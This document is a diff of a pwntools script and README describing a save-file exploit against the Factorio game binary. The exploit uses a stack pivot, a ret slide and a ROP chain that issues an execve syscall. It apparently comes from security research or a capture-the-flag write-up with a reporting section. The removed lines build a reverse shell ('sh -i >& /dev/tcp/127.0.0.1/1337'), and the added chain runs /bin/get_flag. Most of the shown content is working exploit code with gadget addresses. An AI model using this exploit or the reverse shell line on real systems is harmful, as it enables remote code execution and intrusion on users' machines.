

writeup

diff --git a/generate_exploit_savefile.py b/generate_exploit_savefile.py
@@ -3,11 +3,6 @@ from pwn import p8, p16, p32, p64
 from pwnlib.rop import ROP
 
 
-# exe = ELF("./game/factorio/bin/x64/factorio")
-
-# context.binary = exe
-
-
 def main():
     b = p16(1) + p16(1) + p16(61) + p16(0)  # some version
     b += p8(0)  # quality version
@@ -31,8 +26,9 @@ def main():
     b += p8(0)  # bool false to get into the if
     b += p8(0xff) * 5  # encoding an int (-1)
 
+    binary_end = 0x278f000
     slide_target = 0xe000000  # the place we hope to find our return slide at
-    mov_rsp_rcx = 0x0000000002043fa4  # 0x0000000002043fa4: mov rsp, rcx; ret;
+    mov_rsp_rcx = 0x2043fa4  # 0x2043fa4: mov rsp, rcx; ret;
 
     stack_pivot = p64(slide_target)
     stack_pivot += p64(slide_target)
@@ -41,95 +37,31 @@ def main():
     b += stack_pivot * int(0x200000 / 8)
 
     rop_chain = ROP([])
-    data_section = 0x027920e0
-    # --- write target program string to memory
-    execution_target = '/bin/sh\0'
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(execution_target)  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section)  # value for rax (.data as write target)
+    execution_target = '/bin/get_flag\0'.ljust(16, '\0')
+    # --- write execution target string to memory
+    rop_chain.raw(0x40e2d4)  # pop rsi; ret;
+    rop_chain.raw(execution_target[:8])  # value for rsi
+    rop_chain.raw(0x40e86b)  # pop rax; ret;
+    rop_chain.raw(0x027920e0)  # value for rax (.data as write target)
     rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # --- write target program arguments to memory
-    program_arguments_0 = '-c\0'.ljust(8, '\0')
-    program_arguments_1 = 'sh -i >& /dev/tcp/127.0.0.1/1337 0>&1'.ljust(48, '\0')
-    # -- pointer_0
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(data_section + 0x20)  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x08)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- pointer_1
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(data_section + 0x28)  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x10)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- null pointer
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(0)  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x18)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_0
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_0)  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x20 + 0x00)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_0
-    offset = 0x00
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_1
-    offset = 0x08
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_2
-    offset = 0x10
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_3
-    offset = 0x18
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_4
-    offset = 0x20
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
-    # -- argument_1_5
-    offset = 0x28
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
-    rop_chain.raw(program_arguments_1[offset:offset + 8])  # value for rsi
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
-    rop_chain.raw(data_section + 0x28 + offset)  # value for rax (.data as write target)
-    rop_chain.raw(0x0000000001c73b08)  # mov qword ptr [rax], rsi; ret;
+    # --
+    rop_chain.raw(0x40e2d4)  # pop rsi; ret;
+    rop_chain.raw(execution_target[8:])  # value for rsi
+    rop_chain.raw(0x40e86b)  # pop rax; ret;
+    rop_chain.raw(0x027920e0 + 8)  # value for rax (.data as write target)
+    rop_chain.raw(0x1c73b08)  # mov qword ptr [rax], rsi; ret;
     # --- syscall
-    rop_chain.raw(0x000000000040e86b)  # pop rax; ret;
+    rop_chain.raw(0x40e86b)  # pop rax; ret;
     rop_chain.raw(59)  # value for rax (syscall number)
-    rop_chain.raw(0x000000000040e150)  # pop rdi; ret;
+    rop_chain.raw(0x40e150)  # pop rdi; ret;
     rop_chain.raw(0x027920e0)  # value for rdi (.data as read target)
-    rop_chain.raw(0x000000000040e2d4)  # pop rsi; ret;
+    rop_chain.raw(0x40e2d4)  # pop rsi; ret;
     rop_chain.raw(0)  # value for rsi
-    rop_chain.raw(0x000000000040e68f)  # pop rdx; ret;
+    rop_chain.raw(0x40e68f)  # pop rdx; ret;
     rop_chain.raw(0)  # value for rdx
-    rop_chain.raw(0x000000000042c4d6)  # syscall
+    rop_chain.raw(0x42c4d6)  # syscall
 
-    return_slide = p64(0x0000000000bf1f1c)  # ret
+    return_slide = p64(0xbf1f1c)  # ret
     b += return_slide * int(0x4000000 / 8)
 
     print(rop_chain.dump())

diff --git a/readme.md b/readme.md
@@ -85,14 +85,15 @@ The next thread is a worker thread.
 Immediately we notice multiple interesting things:
 
 1. The thread is attempting to execute a jump
-   ![jump](img/jump.png)
+   ![call](img/call.png)
 2. The jump target is read from the location pointed at by `rbx + 0x40`
 3. `RBX` is pointing into our pattern --> we control the jump target
    ![rbx](img/rbx.png)
-4. `RSP` is also pointing into our pattern --> we control the stack of this thread
-   ![rsp](img/rsp.png)
+4. `RCX` is pointing into our pattern a few bytes after `RBX`
+   ![rcx](img/rcx.png)
 
---> We can use this to build a ROP chain and execute arbitrary code
+--> We can use this to perform a stack pivot (with the gadget `0x2043fa4: mov rsp, rcx; ret;`),
+build a ROP chain and execute arbitrary code.
 
 ### Chain construction:
 
@@ -106,17 +107,32 @@ Essentially, we will reuse a series of existing instructions in the factorio bin
 As we have plenty of space on the chain and don't want to bother ourselves with the libc,
 we will manually execute a syscall.
 
-We only need 4 gadgets:
+We need 5 gadgets for the main chain:
 
-1. `0x4128c8: pop rax; ret;` --> load syscall number into `rax`
-2. `0x4121bf: pop rdi; ret;` --> load first argument into `rdi`
-3. `0x41233d: pop rsi; ret;` --> load second argument into `rsi`
-4. `0x432a96: syscall;` --> execute syscall
-5. `0x1c76e18: mov qword ptr [rax], rsi; ret;` --> modify memory (used to specify target program and arguments)
+1. `0x40e86b: pop rax; ret;` --> load syscall number into `rax`
+2. `0x40e150: pop rdi; ret;` --> load first argument into `rdi`
+3. `0x40e2d4: pop rsi; ret;` --> load second argument into `rsi`
+4. `0x42c4d6: syscall;` --> execute syscall
+5. `0x1c73b08: mov qword ptr [rax], rsi; ret;` --> modify memory (used to specify target program and arguments)
 
-We will execute a simple reverse shell:
+We will execute our target program `get_flag`:
+
 ```bash
-sh -i >& /dev/tcp/127.0.0.1/1337 0>&1
+/bin/get_flag
 ```
+
+In addition to the main chain, we need our stack pivot gadget:
+
+- `0x2043fa4: mov rsp, rcx; ret;`
+
+As the load location of our modified save file is a bit flaky,
+we insert a ret slide which is easier to target than our main chain.
+
+We place the address of the ret slide and the address of the stack pivot gadget
+in the first section of our savefile in an interleaving, repeating pattern.
+The jump will now target the pivot gadget,
+which will point the stack pointer at our ret slide -
+placed in the second section of our save file.
+At the end of the ret slide we place the main chain to execute our target program.
 
 ## Reporting process
